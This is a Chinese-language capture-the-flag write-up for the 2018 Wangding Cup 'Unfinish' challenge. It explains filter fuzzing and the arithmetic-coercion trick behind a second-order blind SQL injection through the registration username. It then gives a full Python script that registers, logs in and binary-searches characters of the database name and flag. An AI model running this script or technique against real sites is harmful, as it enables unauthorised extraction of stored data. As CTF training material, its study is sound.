

# [网鼎杯2018]Unfinish

## 知识点

`SQL注入` 

`二次注入`

## 解题


首先进入发现一个登录框，爆破了一下弱口令失败，扫描目录发现`register.php`,注册登录后发现`显示用户名`，猜测是用户名`sql注入`，`fuzz`看看过滤了哪些



发现`,`、`'`、`information_schema`被过滤了，失败返回`200`，正常返回`302`

`sql`中相加是会先转化成数字（和`php`类似，弱类型）再进行相加。我们构造类似`'0'+'x'+'0'` 而其中的`x`就是我们的判断语句。如果`x`成立就会在`index.php`中回显用户名 `1` 否则为`0` 。

为了更好的定位到数字，构造`'665'+'x'+'0'`

```python
import requests
import time
from urllib.parse import urljoin
import random


url = 'http://4ba6197a-f470-41b7-80ae-fe8473d1f80b.node5.buuoj.cn:81/'

register_url = urljoin(url, 'register.php')

login_url = urljoin(url, 'login.php')


payload = "665'+(ascii(substr((select database()) from {} for 1)) <{})+'0"
payload = "665'+(ascii(substr((select * from flag) from {} for 1)) <{})+'0"

def running(db_length):
    result = ''
    for i in range(1, db_length + 1):
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            email = f"{random.randint(20000, 9000000)}@qq.com"
            session = requests.session()
            register_data = {
                'email': email,
                'username': payload.format(i, mid),
                'password': '123'
            }
            print(f"low:{low}\t\thigh:{high}\t\t" + payload.format(i, mid))
            register_resp = session.post(url=url + 'register.php', data=register_data, timeout=8)
            if register_resp.status_code == 429:
                time.sleep(5)
            else:
                login_data = {
                    'email': email,
                    'password': '123'
                }
                login_resp = session.post(url=login_url, data=login_data)
                if login_resp.status_code == 429:
                    time.sleep(5)
                else:
                    if "666" in login_resp.text:
                        high = mid
                    else:
                        low = mid + 1
                    mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        result += chr(mid - 1)
        print(result)
    print(f"result is: {result}")
    return result


if __name__ == '__main__':
    result = running(100)
```

[参考代码](https://mayi077.gitee.io/2020/08/18/%E7%BD%91%E9%BC%8E%E6%9D%AF2018-Unfinish/)